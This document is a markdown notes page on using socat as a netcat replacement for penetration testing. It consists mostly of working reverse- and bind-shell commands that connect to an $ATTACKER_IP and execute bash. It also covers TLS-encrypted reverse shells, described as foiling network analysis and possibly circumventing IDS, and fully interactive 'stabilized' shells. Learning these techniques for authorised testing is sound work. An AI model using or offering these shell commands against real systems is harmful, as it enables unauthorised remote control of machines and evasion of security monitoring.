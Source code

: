 # Using "socat"

**author**:: Nathan Acks  
**date**:: 2021-10-28

Socat: An anything-to-anything connector!

## "socat" vs. "netcat"

Equivalent commands between socat and netcat:

```bash
# Reverse shell (attacker)
#
nc -lnp $LISTENER_PORT
socat TCP-LISTEN:$LISTENER_PORT -

# Reverse shell (target)
#
nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"

# Bind shell (attacker)
#
nc $TARGET_IP $LISTENER_PORT
socat TCP:$TARGET_IP:$LISTENER_PORT

# Bind shell (target)
#
nc -lnp $LISTENER_PORT -e /bin/bash
socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"
```

Socat gets us an interactive login shell right out the gate, though we're still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

* [Using "netcat"](netcat.md)

### Socat Encrypted Shells

Socat can also make encrypted connections, which foil after-the-fact network analysis and may circumvent IDS entirely.

```bash
# Generate a self-signed certificate.
#
openssl req --newkey rsa:2048 -nodes \
            -keyout shell.key -x509 -days 362 \
            -out shell.crt

# Create a PEM file combining the certificate and key.
#
cat shell.key shell.crt > shell.pem

# Start a listener.
#
socat \
	OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 -

# Start the reverse shell on the target.
#
socat \
	OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
	EXEC:"/bin/bash -li"
```

The `verify=0` directive turns off certificate validation, so this isn't a "secure" connection in the sense that it's been *authenticated*, but it is secure in the sense that it's *encrypted*.

## Shell "Stabilization"

Shell "stabilization" refers to the process of making a remote shell behave like a normal local shell - so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems.

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
      EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

Same thing, but over an encrypted connection:

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat \
	OPENSSL-LISTEN:$LISTENER_PORT,cert=$PEM_FILE,verify=0 \
	FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat \
	OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
	EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that the reverse shell will not pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.
